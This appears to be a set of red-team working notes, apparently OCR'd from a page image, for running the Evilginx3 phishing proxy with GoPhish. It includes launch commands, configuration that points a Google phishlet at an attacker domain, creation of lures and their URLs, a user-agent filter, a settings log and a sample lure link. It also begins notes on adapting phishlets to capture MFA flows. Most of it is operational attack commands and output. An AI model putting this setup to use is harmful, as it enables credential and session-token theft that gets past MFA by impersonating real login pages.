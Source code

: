 
### In separate terminal tabs/windows

### Evilginx3 `(Under Devleopment: Phishlet Preparation/Modification)`

```powershell
./evilginx3 -feed -g ../gophish/gophish.db -turnstile <PUBLIC_KEY>:<PRIVATE_KEY>
```

```docker
systemctl stop systemd-resolved
cd /opt/evilgophish/evilginx2

config domain $phsih-domain.root
config ip $publicip

# Example: phishlets hostname $phishlet $domain.root
phishlets hostname google attck.community

lures create $phishlet
lures get-url 0

# Extra Step if desired
# Filter Mobile Devices (Ensure's Client-Side Execution on Target Asset)
lures edit 0 ua_filter ".*Mobile|Android|iPhone|Mozilla|Chrome|AppleWebKit.*"

```

- Various Settings
    
    ```jsx
    [08:20:59] [inf] blacklist mode set to: off
    [08:20:59] [inf] redirect parameter set to: wi
    [08:20:59] [inf] verification parameter set to: pp
    [08:20:59] [inf] verification token set to: 4f6e
    [08:20:59] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
    [08:21:00] [inf] blacklist: loaded 0 ip addresses or ip masks
    [08:21:00] [war] server domain not set! type: config domain <domain>
    [08:21:00] [war] server ip not set! type: config ip <ip_address>
    
    https://login.$phish-domain.root/yIlijHTA
    
    lures edit <id> ua_filter ".*Mobile|Android|iPhone|Mozilla|Chrome|AppleWebKit.*"
    ```
    

### Updating phishlets

### Identify necessary Domains & Sub-Domains

1. Export MFA sequence URL’s from Burp into vscode
2. Modify as needed for each url
